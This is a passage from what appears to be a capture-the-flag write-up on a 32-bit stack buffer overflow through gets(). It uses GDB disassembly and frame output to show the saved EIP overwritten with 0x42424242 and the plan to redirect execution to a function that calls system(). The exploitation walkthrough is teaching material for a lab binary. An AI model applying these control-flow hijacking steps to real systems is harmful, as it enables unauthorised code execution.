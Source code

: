 In this case, `A*76` fills the **buffer**, and `B*4` overwrites the **saved EIP** (which was the return address after the call to gets).

After running this, we disassemble the main function:

```asm
(gdb) disassemble main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   ebp
   0x08048481 <+1>:	mov    ebp,esp
=> 0x08048483 <+3>:	and    esp,0xfffffff0
   0x08048486 <+6>:	sub    esp,0x50
   0x08048489 <+9>:	lea    eax,[esp+0x10]
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
```

Here we see that the **gets** function is called. By supplying an input larger than the buffer, we overwrite the **saved EIP** with **0x42424242**, the value corresponding to the **4-byte B sequence**. After this, we proceed with the next instruction using the ni (next instruction) command:

```asm
(gdb) ni
0x08048495 in main ()
(gdb) info frame
Stack level 0, frame at 0xbffff740:
 eip = 0x8048495 in main; saved eip 0x42424242
 Arglist at 0xbffff738, args:
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
```

As we can see, the **saved EIP** is now **0x42424242**, which means the program will now jump to this address when it executes the **ret** instruction. This is because the **EIP** holds the address of the next instruction to execute, and by modifying it, we can control the flow of the program.

#### 🧳 Running the Function: System Exploit

To trigger the exploit, we need to control the program's execution flow to call the `system()` function, which can execute a shell command.

The `run` function is responsible for invoking `system()`:

```asm
0x08048444 <+0>:	push   ebp
0x08048445 <+1>:	mov    ebp,esp
0x08048447 <+3>:	sub    esp,0x18
0x0804844a <+6>:	mov    eax,ds:0x80497c0
0x0804844f <+11>:	mov    edx,eax
0x08048451 <+13>:	mov    eax,0x8048570
0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx
0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13
0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1
0x0804846a <+38>:	mov    DWORD PTR [esp],eax
0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
0x08048479 <+53>:	call   0x8048360 <system@plt>
0x0804847e <+58>:	leave
0x0804847f <+59>:	ret
```
